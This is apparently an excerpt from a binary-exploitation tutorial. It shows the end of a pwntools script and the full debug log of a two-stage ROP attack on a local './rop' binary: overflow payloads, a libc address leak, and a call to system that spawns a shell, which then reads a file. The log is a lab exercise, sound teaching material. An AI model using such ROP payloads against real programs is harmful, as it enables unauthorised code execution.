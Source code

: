 ```python
proc.recv()

log.info("Shell spawned")
proc.interactive()
```

```plain
[+] Starting local process './rop' argv=[b'./rop'] : pid 7815
[*] Stage one
[*] Receive input
[DEBUG] Received 0x7 bytes:
    b'Input: '
[*] Send first payload
[DEBUG] Sent 0x80 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  13 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  01 00 00 00  00 00 00 00  11 06 40 00  00 00 00 00  │····│····│··@·│····│
    00000060  18 10 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │··`·│····│····│····│
    00000070  30 04 40 00  00 00 00 00  37 05 40 00  00 00 00 00  │0·@·│····│7·@·│····│
    00000080
[*] Receiving write address
[DEBUG] Received 0x287 bytes:
    00000000  20 e5 23 3a  07 7f 00 00  80 e4 23 3a  07 7f 00 00  │ ·#:│····│··#:│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000280  49 6e 70 75  74 3a 20                               │Inpu│t: │
    00000287
[*] write address in libc: 0x7f073a23e520
[*] system address in libc: 0x7f073a195e50
[*] sh address in libc: 0x7f073a2db143
[*] Stage two
[*] Send second payload
[DEBUG] Sent 0x68 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  13 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  43 b1 2d 3a  07 7f 00 00  50 5e 19 3a  07 7f 00 00  │C·-:│····│P^·:│····│
    00000060  30 b5 18 3a  07 7f 00 00                            │0··:│····│
    00000068
[*] Shell spawned
[*] Switching to interactive mode
$ echo $0
[DEBUG] Sent 0x8 bytes:
    b'echo $0\n'
[DEBUG] Received 0x8 bytes:
    b'/bin/sh\n'
/bin/sh
$ cat Foo.txt
[DEBUG] Sent 0xc bytes:
    b'cat Foo.txt\n'
[DEBUG] Received 0x11 bytes:
    b'You can read me!\n'
You can read me!
$ sl
[DEBUG] Sent 0x3 bytes:
    b'sl\n'
[DEBUG] Received 0x2f bytes:
    b'/bin/sh: linia 3: sl: nie znaleziono polecenia\n'
/bin/sh: linia 3: sl: nie znaleziono polecenia
$  
```
